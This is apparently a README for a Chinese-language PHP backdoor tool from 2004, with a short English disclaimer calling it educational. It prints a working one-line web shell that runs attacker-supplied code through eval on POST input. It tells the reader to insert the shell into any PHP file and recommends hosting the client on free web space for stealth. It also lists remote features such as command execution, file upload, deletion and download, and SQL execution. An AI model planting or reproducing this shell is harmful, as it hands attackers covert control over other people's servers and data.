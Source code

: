 # Warning

This source code is intended **for educational purposes only**. Please do not use the code for doing bad things.

The author of this source code is **lanker** and **孟兄**.

The source code was originally written in `Simplified Chinese` and then converted to `Traditional Chinese`.

# 使用說明

lanker微型PHP後門是個C/S型的PHP木馬，分為服務端和客戶端。服務端代碼只有一句話。特點：代碼精悍，隱蔽性好。另外客戶端是個跨平台的HTML網頁文件，所以任何一台支持HTML的服務器都可做代理。你可以把客戶端放到任何一免費空間裡運行，這樣隱蔽性好一些。

lanker微型PHP後門服務端代碼為:<?php eval($_POST[cmd]);?>容錯代碼為<?php @eval($_POST[cmd]);?> 將此代碼插入任何一PHP程序文件中即可。

其中cmd可以任意更改,可做為密碼。

本後門能在：PHP.INI配置為:
* allow_url_fopen = Off
* register_globals = Off
* magic_quotes_gpc = on
* safe_mode=on

下運行，已經突破的大部分限制。顯示了其強大的功能！但當safe_mode=on的時部分功能不能用，這個我就不多說了吧。:)

lanker微型PHP後門客戶端2.0內置了字符轉換工具，不受magic_quotes_gpc = on 的限制，命令執行成功了有提示，沒返回結果或出錯代表失敗。界面和操作比1.0版更加容易和人性化。大家用了就知道了:)  新增了很多功能：

現在具有15個基本功能，列表如下：
* PHP環境變量
* 本程序目錄
* 執行CMD命令
* 讀取目錄
* 創建目錄
* 刪除目錄
* 上傳文件
* 讀取文件
* 創建文件
* 複製文件
* 重命名文件
* 刪除文件
* 下載文件
* 執行SQL語句
* 專家模式（自己寫代碼）

需要說明的是：這個版本不足的地方是不支持中文字符。無論是寫文件還是查看中文的目錄等都不支持！

這個版本是我和孟兄一起開發的，在此感謝小孟! 感謝群裡的朋友的支持! 任何軟件都有BUG，如果你發現BUG請告訴我!我會在第一時間來修補。謝謝! 我的QQ：18779569 ，也可到我BLOG上留言。BLOG地址：http://www.hackblog.com/blog.asp?name=lanker 孟兄QQ：80607005

by lanker 2004/12/24 寫於聖誕之際!
